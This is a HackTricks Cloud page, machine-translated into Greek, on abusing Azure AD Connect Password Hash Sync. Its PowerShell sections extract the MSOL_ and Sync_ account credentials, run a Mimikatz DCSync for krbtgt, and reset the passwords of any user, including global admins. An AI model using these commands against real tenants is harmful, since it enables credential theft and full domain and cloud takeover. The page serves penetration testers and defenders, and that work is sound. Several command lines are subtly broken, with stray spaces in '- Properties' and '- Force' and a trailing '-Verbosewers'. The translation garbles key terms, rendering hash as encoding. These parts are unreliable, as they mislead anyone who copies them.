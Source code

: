 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Η συγχρονισμένη κωδικοποίηση κωδικών πρόσβασης** είναι μία από τις μεθόδους σύνδεσης που χρησιμοποιούνται για την επίτευξη υβριδικής ταυτότητας. **Το Azure AD Connect** συγχρονίζει μια κωδικοποίηση, της κωδικοποίησης, του κωδικού πρόσβασης ενός χρήστη από μια τοπική εγκατάσταση Active Directory σε μια cloud-based Azure AD εγκατάσταση.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Είναι η **πιο κοινή μέθοδος** που χρησιμοποιούν οι εταιρείες για να συγχρονίσουν μια τοπική AD με το Azure AD.

Όλοι οι **χρήστες** και μια **κωδικοποίηση των κωδικών πρόσβασης** συγχρονίζονται από την τοπική AD στο Azure AD. Ωστόσο, οι **κωδικοί πρόσβασης σε καθαρό κείμενο** ή οι **αρχικές** **κωδικοποιήσεις** δεν αποστέλλονται στο Azure AD.\
Επιπλέον, οι **ενσωματωμένες** ομάδες ασφαλείας (όπως οι διαχειριστές τομέα...) **δεν συγχρονίζονται** στο Azure AD.

Η **συγχρονισμένη κωδικοποίηση** συμβαίνει κάθε **2 λεπτά**. Ωστόσο, από προεπιλογή, η **λήξη κωδικού πρόσβασης** και η **λήξη λογαριασμού** **δεν συγχρονίζονται** στο Azure AD. Έτσι, ένας χρήστης του οποίου ο **τοπικός κωδικός πρόσβασης έχει λήξει** (δεν έχει αλλάξει) μπορεί να συνεχίσει να **έχει πρόσβαση σε πόρους Azure** χρησιμοποιώντας τον παλιό κωδικό πρόσβασης.

Όταν ένας τοπικός χρήστης θέλει να αποκτήσει πρόσβαση σε έναν πόρο Azure, η **αυθεντικοποίηση πραγματοποιείται στο Azure AD**.

**PHS** απαιτείται για δυνατότητες όπως **Identity Protection** και AAD Domain Services.

## Pivoting

Όταν το PHS είναι ρυθμισμένο, μερικοί **προνομιούχοι λογαριασμοί** δημιουργούνται αυτόματα:

* Ο λογαριασμός **`MSOL_<installationID>`** δημιουργείται αυτόματα στην τοπική AD. Αυτός ο λογαριασμός έχει ρόλο **Λογαριασμών Συγχρονισμού Καταλόγου** (βλ. [τεκμηρίωση](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) που σημαίνει ότι έχει **δικαιώματα αναπαραγωγής (DCSync) στην τοπική AD**.
* Ένας λογαριασμός **`Sync_<name of on-prem ADConnect Server>_installationID`** δημιουργείται στο Azure AD. Αυτός ο λογαριασμός μπορεί να **επαναφέρει τον κωδικό πρόσβασης ΟΠΟΙΟΥΔΗΠΟΤΕ χρήστη** (συγχρονισμένου ή μόνο cloud) στο Azure AD.

Οι κωδικοί πρόσβασης των δύο προηγούμενων προνομιούχων λογαριασμών **αποθηκεύονται σε έναν SQL server** στον διακομιστή όπου **είναι εγκατεστημένο το Azure AD Connect.** Οι διαχειριστές μπορούν να εξάγουν τους κωδικούς πρόσβασης αυτών των προνομιούχων χρηστών σε καθαρό κείμενο.\
Η βάση δεδομένων βρίσκεται στο `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Είναι δυνατή η εξαγωγή της διαμόρφωσης από έναν από τους πίνακες, με έναν κρυπτογραφημένο:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Η **κρυπτογραφημένη διαμόρφωση** είναι κρυπτογραφημένη με **DPAPI** και περιέχει τους **κωδικούς πρόσβασης του χρήστη `MSOL_*`** στην τοπική AD και τον κωδικό πρόσβασης του **Sync\_\*** στο AzureAD. Επομένως, η παραβίαση αυτών επιτρέπει την ανύψωση προνομίων στην AD και στο AzureAD.

Μπορείτε να βρείτε μια [πλήρη επισκόπηση του πώς αποθηκεύονται και αποκρυπτογραφούνται αυτά τα διαπιστευτήρια σε αυτή την ομιλία](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Εάν ο **διακομιστής όπου είναι εγκατεστημένο το Azure AD connect** είναι συνδεδεμένος σε τομέα (συνιστάται στα έγγραφα), είναι δυνατή η εύρεση του με:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Κατάχρηση MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Μπορείτε επίσης να χρησιμοποιήσετε το [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) για να αποκτήσετε αυτά τα διαπιστευτήρια.
{% endhint %}

### Κατάχρηση Sync\_\*

Δεσμεύοντας τον **`Sync_*`** λογαριασμό είναι δυνατό να **επαναφέρετε τον κωδικό πρόσβασης** οποιουδήποτε χρήστη (συμπεριλαμβανομένων των Παγκόσμιων Διαχειριστών)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Είναι επίσης δυνατό να **τροποποιηθούν οι κωδικοί πρόσβασης μόνο των χρηστών του cloud** (ακόμα και αν αυτό είναι απροσδόκητο)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Είναι επίσης δυνατό να εκχυθεί ο κωδικός πρόσβασης αυτού του χρήστη.

{% hint style="danger" %}
Μια άλλη επιλογή θα ήταν να **ανατεθούν προνομιακές άδειες σε έναν υπηρεσιακό κύριο**, τον οποίο ο χρήστης **Sync** έχει **δικαιώματα** να κάνει, και στη συνέχεια να **προσεγγιστεί αυτός ο υπηρεσιακός κύριος** ως τρόπος privesc.
{% endhint %}

### Seamless SSO

Είναι δυνατό να χρησιμοποιηθεί το Seamless SSO με το PHS, το οποίο είναι ευάλωτο σε άλλες καταχρήσεις. Ελέγξτε το εδώ:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Αναφορές

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

